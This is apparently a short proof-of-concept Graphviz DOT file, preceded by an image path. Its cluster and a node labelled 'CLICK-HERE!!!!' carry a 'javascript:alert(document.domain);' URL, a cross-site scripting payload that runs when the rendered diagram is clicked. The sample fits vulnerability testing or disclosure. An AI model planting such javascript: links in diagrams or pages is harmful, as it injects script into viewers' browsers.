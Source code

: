 digraph mygraph {
  

  subgraph cluster_self_portraits {
    URL="javascript:alert(document.domain);"
    label="XSS vulnerability !!"

    "CLICK-HERE!!!!" [URL="javascript:alert(document.domain);"]
  }
}
